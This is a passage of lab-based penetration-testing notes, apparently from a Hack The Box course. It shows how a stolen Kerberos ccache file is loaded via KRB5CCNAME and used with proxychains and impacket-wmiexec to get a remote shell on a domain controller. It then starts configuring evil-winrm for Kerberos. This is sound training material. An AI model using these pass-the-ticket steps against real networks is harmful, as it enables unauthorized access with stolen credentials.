 **Note:** The client IP is your attack host IP.

Finally, we need to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file.

#### Setting the KRB5CCNAME environment variable
```shell
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket
To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option `-k`. If we get a prompt for a password, we can also include the option `-no-pass`.

#### Using Impacket with proxychains and Kerberos authentication
```shell
proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```

**Note:** If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.

### Evil-WinRM
To use [evil-winrm](https://github.com/Hackplayers/evil-winrm) with Kerberos, we need to install the Kerberos package used for network authentication. For some Linux like Debian-based (Parrot, Kali, etc.), it is called `krb5-user`. While installing, we'll get a prompt for the Kerberos realm. Use the domain name: `INLANEFREIGHT.HTB`, and the KDC is the `DC01`.

#### Installing Kerberos authentication package
#### Default Kerberos v5 realm
![[Pasted image 20251009142119.png]]
The Kerberos servers can be empty.
